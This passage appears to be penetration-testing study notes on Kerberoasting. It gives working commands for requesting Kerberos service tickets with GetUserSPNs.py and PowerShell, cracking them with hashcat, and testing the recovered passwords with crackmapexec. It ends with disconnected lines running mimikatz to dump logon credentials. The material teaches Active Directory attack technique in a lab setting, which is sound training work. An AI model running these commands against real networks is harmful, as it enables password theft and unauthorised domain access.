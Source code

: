 We can now pull all TGS tickets for offline processing using the `-request` flag for all the SPNs:
```console
zero@pio$ GetUserSPNs.py -dc-ip <IP> <DOMAIN>.LOCAL/<USER> -request
```

We can also just request the TGS ticket from one account:
```console
zero@pio$ GetUserSPNs.py -dc-ip <IP> <DOMAIN>.LOCAL/<USER> -request-user <USER> -outputfile <OUTPUT FILE>
```

With this ticket in hand, we could attempt to crack the user's password offline using Hashcat. Use the flag `-outputfile` to have the hash more handy. Use the following syntax to crack it:
```console
zero@pio$ hashcat -m 13100 hash_file <WORDLIST>
```

If we crack it, we can test the password:
```console
zero@pio$ sudo crackmapexec smb <IP> -u <USER< -p <PASSWORD>
```

## From Windows 

### Semi Manual method

Before **Rubeus** stealing a Kerberos ticket was a complex process. First, enumerate with [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary:
```console
C:\zeropio> setspn.exe -Q */*
```

To request with a single user:
```console
PS C:\zeropio> Add-Type -AssemblyName System.IdentityModel
PS C:\zeropio> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<DOMAIN>/<USER>"
```

The flow of the command was:
- The `Add-Type` cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- `System.IdentityModel` is a namespace that contains different classes for building security token services
- We'll then use the `New-Object` cmdlet to create an instance of a .NET Framework object
- We'll use the `System.IdentityModel.Tokens` namespace with the `KerberosRequestorSecurityToken` class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We can also choose to retrieve all tickets using the same method:
```console
PS C:\zeropio> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm